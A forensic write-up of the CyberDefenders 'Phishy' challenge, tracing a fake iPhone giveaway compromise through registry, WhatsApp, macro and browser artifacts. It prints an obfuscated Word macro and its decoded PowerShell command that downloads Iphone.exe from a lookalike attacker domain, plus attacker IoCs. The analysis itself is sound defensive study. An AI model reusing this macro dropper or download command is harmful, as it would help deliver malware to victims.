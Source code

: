 ```yaml
---
title: "Cyberdefenders · Digital Forensics · Phishy"
date: 2023-08-12T19:16:00+03:00
draft: false
---
```


The scenario:

> A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis.
As a soc analyst, you are tasked to identify how the system was compromised.

## Abstract

In this article, I investigate a cyber incident involving a fake iPhone giveaway that targeted an employee at a company. As a SOC analyst, my mission is to determine how the system was compromised. Through careful analysis, I uncover the victim machine's hostname, identify the messaging app installed as WhatsApp, and trace the malicious download URL used by the attacker. 

The investigation reveals that the attacker used obfuscated macros in a document to execute a program named "Iphone.exe," downloaded from "http[:]//appIe.com/Iphone.exe." The malware is identified as a Meterpreter trojan created using the Metasploit framework. The attacker's IP address is found to be 155.94.69.27. Moreover, I discover the URL of the login page used in the fake giveaway as "http[:]//appIe.competitions.com/login.php," and the password submitted to this page is obtained using the PasswordFox tool. Here is why you should to raise awareness against phishing, consequences could be harmfull.

![Illustration of an old hook.](/img/write-up/hook.jpg)

<figcaption>Illustration of an old hook.</figcaption>

## Q1. What is the hostname of the victim machine?

Autopsy seems to not support the AD1 format. So I extracted the `SYSTEM` Windows Registry located at `Windows/System32/config/` using FTKImager. After, you can open it with various tools such as [RegistryExplorer from Eric Zimmerman](https://ericzimmerman.github.io/#!index.md) or [AccessData Registry Viewer](https://accessdata-registry-viewer.software.informer.com/download/).

According to [this post](https://superuser.com/questions/1539088/find-hostname-of-an-windows-image), the machine name is located here: `SYSTEM\ControlSet00X\Control\ComputerName\ComputerName`. The path is a little bit different but it's still the same logic: `WIN-NF3JQEU4G0T`.

## Q2. What is the messaging app installed on the victim machine?

Firstly, I tried to use [Autopsy](https://www.autopsy.com/) on this challenge, without success. Launching ingest module on the provided file only returns some email related strings, this is where I found the messaging app; WhatsApp. The "academic" method would be to look in `Program Files` and `Program Files (x86)` but there is nothing related to a messaging app. Sometimes, programs are installed directly on the user directory: `Users/Semah/AppData/Local/`, here you can find the WhatsApp directory.

## Q3. The attacker tricked the victim into downloading a malicious document. Provide the full download URL.

Firstly, I extracted all the WatsApp databases located at: `Users/AppData/Roaming/WhatsApp/Databases` and opened it with [sqliteviewer.app](https://sqliteviewer.app/). I found a conversation inside `msgstore.db > message_ftsv2` with this message: 

> okay you can check this file below :  https : / / drive.google.com / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing readme.txt https : / / drive.google.com / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing & usp = embed_facebook

Unfortunately, this is not the answer.

I finally found this fantastic tool: [WhatsApp Viewer](https://andreas-mausch.de/whatsapp-viewer/) which is very easy to use. When I opened the `msgstore.db`, the tool found an another discussion with the answer: `http[:]//appIe.com/IPhone-Winners.doc`. I wanted to know why I was unable to find theses messages. In fact, the messages was located in... `message` table, I just didn't saw them because of the interface! Lesson learned, be carreful and look for the good tool first.

## Q4. Multiple streams contain macros in the document. Provide the number of the highest stream.

Using the [Oledump python script](https://blog.didierstevens.com/programs/oledump-py/), you can find that the highest stream which contains macro (marqued with the "M" letter in the output bellow), is 10.

```
python oledump_V0_0_75\oledump.py export-folder\IPhone-Winners.doc

  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
 11:      4096 'WordDocument'
```

## Q5. The macro executed a program. Provide the program name?

First, you have to extract both of the macros:

```
$ python oledump_V0_0_75\oledump.py -s 10 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "iphoneevil"
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) [...] Chr(65)
    llllllllll1 = Chr(112) [...] Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function

$ python oledump_V0_0_75\oledump.py -s 9 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "eviliphone"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
lllllllll1l
End Sub
```

The stream number 10 is obfuscated. I translated all the `Chr` function parameter into ASCII values and observed that it looks like base64. Here is the decoded payload (last line of the 10th stream) :

```
CreateObject(WScript.Shell).Run invoke-webrequest - Uri   'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentialÀ, 0, True
```

The malicious macro launch a downloading from the same domain as the user downloaded the infectied doc file, using Powershell.

## Q6. The macro downloaded a malicious file. Provide the full download URL.

Already answered in the previous question.

## Q7. Where was the malicious file downloaded to? (Provide the full path)

Already answered in the previous question.

## Q8. What is the name of the framework used to create the malware?

My antivirus gives me the answer as it deleted the file with a pop-up showing that the malware is a Meterpreter trojan. An other way is to calculate the Iphone.exe's hash and search on VirusTotal, you will see that the program is related to Meterpreter too. A third way is to extract the file and extract the strings inside, I'm pretty sure that you will find Meterpreter inside. Unfortunately my AV doesn't want to extract the file so I will consider this solution as valid too.

An internet research about "Meterpreter framework" gives the framework name: Metasploit.

## Q9. What is the attacker's IP address?

VT provides various IoCs related to this malware, like these IP addresses:

- 155.94.69.27

- 192.168.0.30	

- 192.229.221.95	

- 20.99.133.109	

- 23.216.147.76	

- 52.185.73.156	

Thanks to the answer pattern you can easily identifie the correct one. Otherwise, a string extraction should provides IP addresses too.

## Q10. The fake giveaway used a login page to collect user information. Provide the full URL of the login page?

I was stucked on this question for a while. I found the history database located at `C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\<profile folder>\places.sqlite` into the `moz_places` table but when I wanted to open it with a SQLite viewer I didn't see the answer. I saw a weird domain named `https://for1.q21.ctfsecurinets.com` and when I opened the **same** file with Autopsy I saw the answer: `http://appIe.competitions.com/login.php`.

I don't know why both software didn't see the same data, maybe it's because Autopsy process the `places.sqlite` with other files but it's still weird because with Autopsy I don't see `https://for1.q21.ctfsecurinets.com`.

## Q11. What is the password the user submitted to the login page?

I used [PasswordFox](https://www.nirsoft.net/utils/passwordfox.html), selected the profile folder and opened it with the tool, the password is displayed on the screen.
